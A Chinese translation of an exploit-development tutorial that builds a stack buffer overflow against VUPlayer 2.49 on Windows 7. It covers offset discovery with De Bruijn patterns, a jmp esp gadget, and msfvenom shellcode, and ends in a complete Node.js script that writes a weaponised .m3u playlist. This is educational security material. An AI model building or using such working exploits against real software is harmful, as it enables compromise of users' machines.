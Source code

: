 # Windows 漏洞开发:一个简单的缓冲区溢出示例

> 原文：<https://infosecwriteups.com/windows-expliot-dev-101-e5311ac284a?source=collection_archive---------0----------------------->

在本帖中，我们将为 Windows 7 上的一个真实应用编写一个漏洞，没有缓解措施(DEP 和 ASLR)。我们将针对加载播放列表时容易出现缓冲区溢出的 VUPLayer 2.49。这是我们的测试对象的样子:

![](img/1d2a3850223da357bb011d4b6d7c322d.png)

好看的复古 GUI)

## 第一轮

为了防止缓冲区溢出，我们使用这个简单的 nodejs 脚本创建了一个只包含“A”和“B”的长列表:

```
const blockSize = 2000
for (let i = 0; i < 3; i++) {
  const char = String.fromCharCode(0x41 + i) // A B
  process.stdout.write(char.repeat(blockSize))
}
**>> nodejs 1sttry.js > sample.m3u**
```

让我们附加一个调试器，加载样本播放列表并分析崩溃。

![](img/2a017cc7821e74ce9054c4adb2cb3430.png)

我们有效地使应用程序崩溃，并用**0x 41414141(‘AAAA’)**覆盖 EIP。我们确信我们遇到了缓冲区溢出，现在我们需要测量缓冲区的长度，以便用我们想要的任何值覆盖 EIP。我们应该尝试用已知的值覆盖 ESP 和 EIP。

## 第二轮

我们可以尝试使用更小的字节块来提高精度。使用 500 字节长的块，我们得到指向 **0x0012EEAC** 的 ESP，其中填充了 43(C)。

![](img/e973632999d5bd8d752c492528d94561.png)

这里我们可以看到 ESP 指向 **0x0012EEAC** 和在 ESP 之前寻址的 43(C)s start**4。**

因此，为了达到 ESP，我们必须提供 500 个 A、500 个 B 和 16 个 C。

## 第三轮

我们将块大小更改为 **1016 字节**以匹配我们的计算，我们成功地达到了预期的 esp。

![](img/3a1732434c3e9eeb905cc5f4ddd0a9c1.png)

我们先从 ESP 开始放 1016 'A，然后是 1016 'B，然后是 1016 'C。

现在我们需要知道堆栈有多大。我们可以使用 radare2 的 ragg2 实用程序，使用 De Bruijn 模式对此进行测量

```
**ragg2 -P 2000 -r**
```

## 第四轮

我们的新 exploit.js 包括一个 De Bruijn 序列，看起来像这样:

```
const blockSize = 1012let buf = ''buf += 'A'.repeat(blockSize)
buf += 'D'.repeat(4) // overrides EIPconst r2pipe = require('r2pipe')
r2pipe.open("/bin/true",function (err, r2) {
  if (err) {
    console.error(err)
  } else {
    r2.syscmd(`**ragg2 -P ${blockSize} -r**`, function(err, o) {
      if (err) {
        console.error(err)
      } else {
        buf += o
        r2.quit()
        process.stdout.write(buf)
      }
    })
  }
})
```

我们来试试吧！

![](img/d9e50a6fe5b2b6a20083eeb41a00a22e.png)

太好了！EIP = 0x 4444444 = = ' DDDD '

![](img/a44d1b717dc31c2988a6df6fc8f3e145.png)

我们‘A’的组块从 **0x12EAb4** 开始，EIP 在 **0x12EEA8** 。使用 radare2，我们可以计算地址之间的差异。知道堆栈长度的第三种方法是直接提供一个布鲁日模式，然后在崩溃后得到 EIP 值的偏移。

```
**ragg2 -P 2000 -r > sample.m3u** # this generates a pattern 2000 bytes long
```

加载此样本后，m3u EIP 的值为 **0x41684641** ，如我们所料，其偏移量为 **1012** :

![](img/d896a157e82aa0c266620223dcee7d8f.png)

然后，我们可以通过将这个值减去 EIP 的内容地址来计算堆栈的开始位置，这个地址是 **0x12EAB4** (还是和预期的一样)

![](img/d5c70746d84fc347cd8a809b80aeeea0.png)

在这种环境下，我们不能将堆栈中的地址直接放入 EIP，因为堆栈地址以 **0x00** 开始，这是一个空字符，会阻止文件的其余部分被加载。我们需要使用间接方法跳转到包含有效载荷的堆栈部分。我们将找到一个包含“jmp esp”指令的地址，并用它覆盖 EIP。

使用 Immunity debugger 很容易找到地址:

![](img/35153cd80ae4f44f01983af102be208e.png)

```
!searchcode jmp esp
# then search for an address on an executable section that contains no null bytes, otherwise the exploit will fail!
```

这是这个小工具的新有效载荷:

```
const fs = require('fs')const fileName = 'sample.m3u'
const blockSize = 1012let buf = ''
buf += 'A'.repeat(blockSize)// overrides EIP with Address :  0x1010539f => jmp esp
// found with immunity by issuing the command : **!searchcode jmp esp**
// the address is on a **PAGE_EXECUTE_READ at BASSWMA.dll**
buf += "\x9f\x53\x10\x10"buf += 'D'.repeat(4) // ESPfs.writeFile(`./${fileName}`, buf, 'binary')
```

对于新的有效负载，EIP 被小工具的地址( **0x1010539f** )覆盖，我们在其后放置了一个占位符(‘DDDD’)。现在我们需要提供代码来代替占位符运行。

## 第五轮

我们可以使用 Metasploit 的 [**msfvenom**](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/) 来创建一个用于 PoC 漏洞利用的公共有效负载。它会弹出一个计算器。命令如下:

```
**msfvenom -a x86 --platform windows -p windows/exec CMD='calc.exe' -b '\x00\x09\x0a\x0d\x1a\x20' --format python**
```

确保禁止不良字符( *-b* 选项)，以便将整个漏洞载入堆栈。请记住，某些字符(如空字节)可能会提前终止我们的输入。

添加了 Metasploit 的外壳代码后，我们的漏洞如下所示:

```
const fs = require('fs')const fileName = 'totally-legit.m3u'const stackSize = 1012
const addressSize = 4 // 4 bytes == 1 address
const nopsled = lenght => '\x90'.repeat(lenght) // 0xcc = nopconst payload = () => {
  // msfvenom -a x86 --platform windows -p windows/exec CMD='calc.exe' -b '\x00\x09\x0a\x0d\x1a\x20' --format python buf =  ""
  buf += "\xdd\xc3\xba\xad\xd7\xf1\x1e\xd9\x74\x24\xf4\x5f\x31"
  buf += "\xc9\xb1\x31\x31\x57\x18\x83\xef\xfc\x03\x57\xb9\x35"
  buf += "\x04\xe2\x29\x3b\xe7\x1b\xa9\x5c\x61\xfe\x98\x5c\x15"
  buf += "\x8a\x8a\x6c\x5d\xde\x26\x06\x33\xcb\xbd\x6a\x9c\xfc"
  buf += "\x76\xc0\xfa\x33\x87\x79\x3e\x55\x0b\x80\x13\xb5\x32"
  buf += "\x4b\x66\xb4\x73\xb6\x8b\xe4\x2c\xbc\x3e\x19\x59\x88"
  buf += "\x82\x92\x11\x1c\x83\x47\xe1\x1f\xa2\xd9\x7a\x46\x64"
  buf += "\xdb\xaf\xf2\x2d\xc3\xac\x3f\xe7\x78\x06\xcb\xf6\xa8"
  buf += "\x57\x34\x54\x95\x58\xc7\xa4\xd1\x5e\x38\xd3\x2b\x9d"
  buf += "\xc5\xe4\xef\xdc\x11\x60\xf4\x46\xd1\xd2\xd0\x77\x36"
  buf += "\x84\x93\x7b\xf3\xc2\xfc\x9f\x02\x06\x77\x9b\x8f\xa9"
  buf += "\x58\x2a\xcb\x8d\x7c\x77\x8f\xac\x25\xdd\x7e\xd0\x36"
  buf += "\xbe\xdf\x74\x3c\x52\x0b\x05\x1f\x38\xca\x9b\x25\x0e"
  buf += "\xcc\xa3\x25\x3e\xa5\x92\xae\xd1\xb2\x2a\x65\x96\x4d"
  buf += "\x61\x24\xbe\xc5\x2c\xbc\x83\x8b\xce\x6a\xc7\xb5\x4c"
  buf += "\x9f\xb7\x41\x4c\xea\xb2\x0e\xca\x06\xce\x1f\xbf\x28"
  buf += "\x7d\x1f\xea\x4a\xe0\xb3\x76\xa3\x87\x33\x1c\xbb"
  return buf
}let buf = ''
buf += 'A'.repeat(stackSize) // overflow
// overrides EIP with Address :  0x1010539f => jmp esp
// found with immunity by issuing the command : !searchcode: jmp esp
// the address is on a PAGE_EXECUTE_READ at BASSWMA.dll
buf += "\x9f\x53\x10\x10"
buf += nopsled(addressSize*4) // just in case, not mandatory
buf += payload()fs.writeFile(`./${fileName}`, buf, 'binary', () => console.log(`Done! > ${fileName}`))
```

如果您查看由字节级漏洞创建的列表，您会看到如下内容:

```
**cat totally-legit.m3u | hexdump** ------------------------------------------------------------------
0000000 4141 4141 4141 4141 4141 4141 4141 4141 // 'A' block start
*
00003f0 4141 4141 **539f 1010** *9090 9090 9090 9090* // gadget + nops
0000400 *9090 9090 9090 9090* c3dd adba f1d7 d91e // shellcode starts
0000410 2474 5ff4 c931 31b1 5731 8318 fcef 5703
0000420 35b9 e204 3b29 1be7 5ca9 fe61 5c98 8a15
0000430 6c8a de5d 0626 cb33 6abd fc9c c076 33fa
0000440 7987 553e 800b b513 4b32 b466 b673 e48b
0000450 bc2c 193e 8859 9282 1c11 4783 1fe1 d9a2
0000460 467a db64 f2af c32d 3fac 78e7 cb06 a8f6
0000470 3457 9554 c758 d1a4 385e 2bd3 c59d efe4
0000480 11dc f460 d146 d0d2 3677 9384 f37b fcc2
0000490 029f 7706 8f9b 58a9 cb2a 7c8d 8f77 25ac
00004a0 7edd 36d0 dfbe 3c74 0b52 1f05 ca38 259b
00004b0 cc0e 25a3 a53e ae92 b2d1 652a 4d96 2461
00004c0 c5be bc2c 8b83 6ace b5c7 9f4c 41b7 ea4c
00004d0 0eb2 06ca 1fce 28bf 1f7d 4aea b3e0 a376
00004e0 3387 bb1c
00004e4
```

终于，我们向 pwn 开拓的时候到了！

![](img/0aaa611948571544d62a22970f76052e.png)

如果你喜欢这篇文章，你可能想看看这些很棒的教程:

*   [https://www . corelan . be/index . PHP/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflow/](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
*   [https://www . corelan . be/index . PHP/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/)

[](https://twitter.com/syscall59) [## 艾伦(@syscall59) |推特

### 艾伦的最新推文(@syscall59)。功能过多的脚本小子

twitter.com](https://twitter.com/syscall59)